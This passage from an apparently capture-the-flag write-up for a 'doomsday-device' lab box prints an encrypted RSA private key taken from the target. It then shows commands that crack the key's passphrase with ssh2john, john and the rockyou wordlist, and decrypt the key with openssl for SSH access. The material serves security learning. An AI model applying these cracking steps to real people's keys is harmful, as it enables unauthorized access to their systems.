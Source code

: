 {% highlight text %}
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,CF1CA7F9558B5637B0C9F66B972B6AB6

GlAt2Uhi+zBOMhGrASR0ica1YTk7BTBNzKAkqLGzyTy1eplEKiTou7LdW5hV7Khf
ZU+9X9Cg5L9KHT+w0OFQeVghzYOwZ+aeyzoii1Wo/pFx460eUj5oFTJnsN/UvHfi
sjGX8bLp4RT+HjTZr7b2+XiDww33xdskdnXeHBc9CsDRA+59x8+bszto+X3zaIVF
LaJ4nIx2nTVtn9DKEItfmsL3iCn4BKKT1kQ94K8R3Cx11Hdb49buByRYcICJhoT6
j416LKNUnH9F53dLyHrY6VoxjrckZWQC05DhiNgva6TxBqoX8XMEVWNf9UBoqsbl
MYVY5p2nbvM6u6pyViX6hSqLLxMe9kcyvYeC51irASXIlGZW6fQEieGesRm4uKG4
HeFtT57TXh7XIjqscqsR/swFMF9FGRRro0fCDTza3q+lKrmGWSQT6zM4F4iH0oOu
6K8cpe2JBfBQTHIXG136Xu4IF/4FVzXFfP4B920ecwTjRdxpeCZIKcItqp6dQ50f
HomaBFr0Bka/UfyJADDaDJ1oC78Vgg31y6QQwQsfKpiL0GDYwmCYFEk2/WBF8uyf
ZwTh0CnyUcIyXxv996ZLfX9RSRcrKXhMjw2YLz43cP5bkwUrBZ1/OnnCsxzaZWBX
r+NZEWkFIfFGat6RWmregVwR58oQg4s07fIIN+VFWTdCl9HGFlMGBrpUrly5PIzF
5hEIxDiuL6LEcW5kMYwtrPCo4QK+++KikySBpNaVxuY0Fy1E07AKyFl+7DMu82eH
hI29O4ebO0J15jxIX8Ta9dXCspqKbYeL6RMB6/uZEd61cP2Mh0Kd8K7rUuCdyOIF
7RXF61whnhy4YB7Um+O3iTABQjsR2T0+IKxasYEriuQNMrqMwtQXPIfxJ/wAcViA
mLKh/HoCUCfoC8+ksWwycYuEde06OxRH9zn0HITt5pgs+gtkBgGG25xSUbE9rGMC
iQGd/wDIcad0tjT9WnxoSPvlYRHSWLy5KjyGGShWRcXbMM4lhZbvHHktr6pD35rn
XMWdsLTKn5xr0IDF+iBNpd/cUKGO1Wi4TjZkZf6aTZZCzumrf3/A1ZH6pf32vRdg
9fA4eEHgwwn/qLJRYo33mj96+gBdRleYBaIxUmxm4VbJ8qkD0kthPI32LzvVgKOM
8q2J1cC7pJN5BVM1nmMPxz29MUZXvf4RU75p9fE1lBaX/5aBp+J7HUHREBg0cod6
6NHJ+u/WgGhrUGITi2V+4SL7Xi5F1ig2goA8EL5MYlnv4tU39Bihw6AOfqmGza9H
cQr9vsF1ryFXqAD7IxwjjTYgcTWxEj2P/LBzeC6rfLzgPeulPkPHVBaiB2lzIGEB
uExO3CjF9cqZMRyRo8XhOmrZw5vE2eO43uqpWFIwb4PUoG3uVcKEVqpuZ6bSYPvI
L59nw0ONv+1G4t4BG/WSHGKBq1hcpOpNIFGASFR8eVVchpK9OtMTwGvSp/M7diRR
/EjSLFhcBhKgjInCHgyRnQa5X3B6z9/HIGkwdH381CuXl5MYxDAt3S3IvJ6prolz
0lpnN5PD4wHHDdvVSntdV5w4rdJSdWaVcHohLLj/elYvPkjor8MARqeLatyYUL2y
-----END RSA PRIVATE KEY-----
{% endhighlight %}

cracking the RSA private key using john:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ /usr/share/john/ssh2john.py michael > michael.hash 

┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt michael.hash               1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
mypassword1234   (michael)

{% endhighlight %}

We can use `openssl` to write a decrypted id_rsa file to be used with SSH: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ openssl rsa -in michael -out id_rsa                                       255 ⨯
Enter pass phrase for michael:
writing RSA key
{% endhighlight %}
